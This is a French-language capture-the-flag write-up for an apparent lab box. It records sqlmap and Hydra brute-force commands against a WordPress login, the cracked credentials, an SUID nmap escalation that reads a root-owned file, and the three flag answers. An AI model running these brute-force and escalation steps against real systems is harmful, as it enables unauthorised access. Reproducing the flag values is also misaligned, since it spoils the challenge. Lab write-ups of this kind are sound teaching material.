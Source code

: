 
***

## Brute-force

### SQLMap

#### Commande
`sqlmap -r post_req.txt --current-user`

#### Informations
Pas injectable :(

***

### Hydra

#### Commande
`hydra -L /tmp/fsocity_uniq.dic 10.10.37.192 -p X http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&Log+In:F=Invalid username."`  
`hydra -l elliot -P /tmp/fsocity_uniq.dic 10.10.37.192 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&Log+In:F=is incorrect."`

#### Informations
*La wordlist comprend beaucoup de doublons, on le voit avec `sort fsocity.dic | uniq | wc -l` => 11452 au lieu de ~800000*  
*On enleve les doublons avec la commande suivante : `sort fsocity.dic | uniq > fsocity_uniq.dic`*  

[80][http-post-form] host: 10.10.37.192   login: elliot   password: X  
[80][http-post-form] host: 10.10.37.192   login: Elliot   password: X  
[80][http-post-form] host: 10.10.37.192   login: ELLIOT   password: X  

[80][http-post-form] host: 10.10.37.192   login: elliot   password: ER28-0652

***

## Accès initial

### Identifiant dans /home/robot/password.raw-md5
On crack et on trouve :  
robot:abcdefghijklmnopqrstuvwxyz

## Escalade de privilèges

SUID : `find / -perm -4000 -type f 2>/dev/null`  
=> /usr/local/bin/nmap  
`nmap --interactive`  
`!cat /root/key-3-of-3.txt`

## Flags

- Flag 1 : `073403c8a58a1f80d943455fb30724b9`  
- Flag 2 : `822c73956184f694993bede3eb39f959`  
- Flag 3 : `04787ddef27c3dee1ee161b21670b4e4`  

